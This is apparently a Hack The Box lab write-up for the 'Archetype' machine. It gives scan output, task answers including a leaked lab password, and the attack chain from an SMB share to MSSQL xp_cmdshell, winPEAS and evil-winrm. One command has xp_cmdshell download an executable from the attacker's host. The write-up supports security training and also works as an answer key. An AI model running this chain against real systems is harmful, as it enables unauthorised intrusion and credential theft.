 ```yaml
---

title: HTB [Archtype]

date: 2022-09-25 01:28:05 +0200

categories: [windows,smb,mssql,winpeas]

tags: [HTB Starting point]

---
```


## Archtype

![](https://i.imgur.com/CL1WkMf.png)

### Nmap scan

```js
Nmap scan report for 10.129.94.188
Host is up (0.43s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2022-09-25T04:12:07+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-09-25T03:57:39
|_Not valid after:  2052-09-25T03:57:39
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| ms-sql-info:
|   10.129.94.188:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
| smb2-time:
|   date: 2022-09-25T04:11:48
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-24T21:11:52-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.48 seconds
```

#### Task 1
**Which TCP port is hosting a database server?**

`1433`


#### Task 2
**What is the name of the non-Administrative share available over SMB?**

`backups`

![](https://i.imgur.com/YXuztRL.png)



#### Task 3
**What is the password identified in the file on the SMB share?**

`M3g4c0rp123`

![](https://i.imgur.com/dXMtYoU.png)

![](https://i.imgur.com/0IzxCI2.png)

you can find a password in that `prod.dtsConfig` file



#### Task 4

**What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**

that's `mssqlclient.py`


#### Task 5

**What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**

`xp_cmdshell`

![](https://i.imgur.com/Iq7zVka.png)
- you need to `enable_xp_cmdshell` in order to use it  
- you can find more info about mssql enumeration [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)



#### Task 6

**What script can be used in order to search possible paths to escalate privileges on Windows hosts?**

`winpeas`

- Now let's start a python server in local to transfer the winpeas to the machine

```powershell
xp_cmdshell "powershell -c curl -o C:\Users\sql_svc\Downloads\priv.exe http://10.10.16.18/winPEASx86.exe"
```


#### Task 7

**What file contains the administrator's password?**

`ConsoleHost_history.txt`

- Run winpeas

![](https://i.imgur.com/YLmlvFH.png)
- Let's look into this file

![](https://i.imgur.com/mFI3Klu.png)

- Now login with evil winrm and submit the flags

![](https://i.imgur.com/eTyzVOT.png)

- That's all!!
